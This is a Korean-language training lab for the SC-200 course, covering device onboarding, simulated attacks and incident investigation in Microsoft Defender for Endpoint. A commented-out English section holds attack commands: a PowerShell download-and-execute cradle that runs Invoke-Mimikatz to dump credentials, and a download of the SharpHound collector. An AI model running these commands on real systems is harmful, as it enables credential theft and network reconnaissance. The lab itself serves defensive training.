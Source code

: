 ```yaml
---
lab:
  title: 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 공격 완화
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 학습 경로 2 - 랩 1 - 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

## 랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

여러분은 엔드포인트용 Microsoft Defender를 구현하고 있는 회사에서 일하는 보안 운영 분석가입니다. 관리자는 몇 가지 디바이스를 온보딩하여 SecOps(Security Operations) 팀 응답 프로시저에 필요한 변경 내용에 대한 인사이트를 제공할 계획입니다.

엔드포인트용 Defender 공격 완화 기능을 탐색하려면 두 개의 시뮬레이션된 공격을 실행합니다.

>**참고:** **[대화형 랩 시뮬레이션](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** 을 사용하여 이 랩을 원하는 속도로 클릭할 수 있습니다. 대화형 시뮬레이션과 호스트된 랩 간에 약간의 차이가 있을 수 있지만 보여주는 핵심 개념과 아이디어는 동일합니다.


### 작업 1: 디바이스 온보딩 확인

이 작업에서는 디바이스가 성공적으로 온보딩되었는지 확인하고 테스트 경고를 만듭니다.

1. Microsoft Edge 브라우저의 Microsoft Defender XDR 포털에 아직 없는 경우 테넌트에 대한 관리(로 로그인)https://security.microsoft.com)합니다.

1. 왼쪽 메뉴**의 자산 영역에서 디바이스**를** 선택합니다**. 계속하기 전에 WIN1이 디바이스 페이지에 나타날 때까지 기다려 주세요. 그렇지 않으면, 나중에 생성될 경고를 보기 위해 이 작업을 반복해야 할 수 있습니다.

    >**참고:** 온보딩 프로세스를 완료하고 1시간 후에 디바이스 목록에 디바이스가 표시되지 않으면 온보딩 또는 연결 문제가 표시될 수 있습니다.

1. 왼쪽 메뉴 모음에서 설정** 선택한 **다음 설정 페이지에서 엔드포인트를** 선택합니다**.

1. 디바이스 관리 섹션에서 온보딩을** 선택하고 **"Windows 10 및 11"*이 운영 체제로 선택되어 있는지 확인*합니다. *이제 "온보딩된 첫 번째 디바이스"* 메시지가 완료됨*으로 표시됩니다*.

1. "2" 섹션 *아래로 스크롤합니다. 검색 테스트 실행"*, 복사 단추를 선택하여 검색 테스트 스크립트를 **복사** 합니다.  

1. WIN1 가상 머신의 Windows 검색 창에서 **CMD**를 입력하고 명령 프롬프트 앱의 오른쪽 창에서 **관리자 권한으로 실행**을 선택합니다. 

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다. 

1. 관리istrator: 명령 프롬프트** 창을 마우스 오른쪽 단추로 클릭하여 **스크립트를 붙여넣고 Enter** 키를 눌러 **실행합니다.

    >**참고:** 스크립트를 실행한 후 창이 자동으로 닫힙니다.

### 작업 2: 시뮬레이션된 공격

>**참고:** 포털의 평가 랩 및 자습서 및 시뮬레이션 섹션을 더 이상 사용할 수 없습니다. 다음 단계는 참조용으로만 제공됩니다. 시뮬레이션된 **[공격에 대한 데모는 대화형 랩 시뮬레이션](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** 을 참조하세요. 시뮬레이션된 공격에 대한 대체 항목을 찾기 위해 노력하고 있습니다.

<!--- In this task, you will run two *simulated* attacks using *PowerShell* on *WIN1* to explore the capabilities of Microsoft Defender for Endpoint.

`Attack 1: Mimikatz - Credential Dumping`

1. On the *WIN1* machine, type **Command** in the search bar and select **Run as administrator**.

1. Copy and paste the following command in the **Administrator: Command Prompt** window and press **Enter** to run it.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. You should see a message that says *Access is denied*, and a pop-up message from `Microsoft Defender Antivirus, Windows Security Virus and threats protection` displaying *Threats found*.

1. Exit the **Administrator: Command Prompt** window by typing **exit** and pressing **Enter**.

`Attack 2: Bloodhound - Collection`

1. On the *WIN1* machine, type **PowerShell** in the search bar, select **Windows PowerShell** and select **Run as administrator**.

1. Copy and paste the following commands in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Note:** It is recommended to copy, paste and run the commands one at a time. You can open *Notepad* and copy the commands into a temporary file to accomplish this. The first command creates a folder named *ExternalPayloads* in the same folder where the *Atomic Red Team* folder is located. The second command downloads the *SharpHound.ps1* file from the *BloodHound* GitHub repository and saves it in the *ExternalPayloads* folder.

1. You should see a  pop-up message from `Windows Security Virus and threats protection` displaying *Threats found*.

1. Copy and paste the following command in the **Administrator: Windows PowerShell** window and press **Enter** to run it.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. If the output is *True*, the Malware payload file has not been removed by Microsoft Defender Antivirus. If the output is *False*, the Malware payload file has been removed by Microsoft Defender Antivirus. Use the up-arrow key to repeat the command until the output is *False*. --->

1. 왼쪽 메뉴의 엔드포인트에서 **평가 및 자습서를** 선택한 **다음 왼쪽에서 자습서 및 시뮬레이션을** 선택합니다**.**

1. **자습서** 탭을 선택합니다.

1. 자동화된 조사(백도어)*에서 *시나리오를 설명하는 메시지가 표시됩니다. 이 단락 아래에서 **연습 확인**을 클릭합니다. 시뮬레이션을 수행하는 지침이 포함된 새 브라우저 탭이 열립니다.

1. 새 브라우저 탭에서 **시뮬레이션 실행**이라는 섹션(페이지 5, 2단계부터)을 찾고 단계에 따라 공격을 실행합니다. **힌트:** 시뮬레이션 파일 *RS4_WinATP-Intro-Invoice.docm*은 시뮬레이션 파일** 가져오기 단추를 선택하여 **이전 단계에서 선택한 연습** 읽기 바로 아래 **포털에서 다시 찾을 수 있습니다.

<!--- 1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### 작업 3: 공격 조사

1. Microsoft Defender XDR 포털**의 왼쪽 메뉴 모음에서 인시던트 및 경고를** 선택한 다음, 인시던트(Incidents **)를 선택합니다**.

1. "한 엔드포인트에서 검색된 여러 위협 패밀리"라는 새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

    >**참고:** 경고** 창에 Bloodhound* 및 Mimikatz* 경고가 **모두 *표시됩니다. 자산/디바이스***에서 **win1* 컴퓨터는 **이제 위험 수준이** *높습니다*.

1. **인시던트 관리** 단추를 선택하면 새 창 블레이드가 나타납니다. 

1. 인시던트 태그 아래에 **"시뮬레이션"을** 입력하고 시뮬레이션(새로 만들기)**을 선택하여 **새 태그를 만듭니다. 

1. **내게 할당** 토글을 선택하여 사용자 계정(Me)을 인시던트 소유자로 추가합니다. 

1. **분류** 아래에서 드롭다운 메뉴를 확장합니다. 

1. **정보, 예상 작업**에서 **보안 테스트**를 선택합니다. 

1. 원하는 경우 메모를 추가하고 저장**을 선택하여 인시던트 업데이트 및 완료를 선택합니다**.

1. 공격 스토리, 경고, 자산, 조사, 증거 및 대응* 및 *요약* 탭의 내용을 *검토합니다. 디바이스 및 사용자가 자산 탭 아래에 *있습니다*. *공격 스토리* 탭에는 인시던트 그래프*가 *표시됩니다. **힌트:** 표시 크기 때문에 일부 탭이 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

    >**경고:** 여기서 시뮬레이션된 공격은 연습을 통한 학습의 훌륭한 소스입니다. 강좌 제공 Azure 테넌트 사용 시 이 랩에 제공된 지침에서만 공격을 수행합니다.  이 테넌트에서 *이 교육 과정을 완료한 후* 다른 시뮬레이션된 공격을 수행할 수 있습니다.

## 랩을 완료했습니다.
